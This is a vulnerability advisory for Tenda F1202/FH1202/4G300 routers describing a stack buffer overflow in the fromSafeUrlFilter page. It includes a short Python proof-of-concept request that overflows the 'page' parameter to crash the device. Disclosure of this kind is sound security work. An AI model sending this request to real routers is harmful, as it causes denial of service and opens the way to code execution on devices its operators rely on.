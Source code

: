 # Tenda Router Vulnerability on fromSafeUrlFilter function

This vulnerability lies in the `/goform/fromSafeUrlFilter` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence 4G300

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromSafeUrlFilter` it reads 1 user provided parameters `page` into `v8`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v11`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSafeUrlFilter`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSafeUrlFilter?"
url += "page=" + "s" * 0x200
url += "&menufactuer=test&op=0&ipflag=1&timeflag=2" 
url += "&entrys="+'s'


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge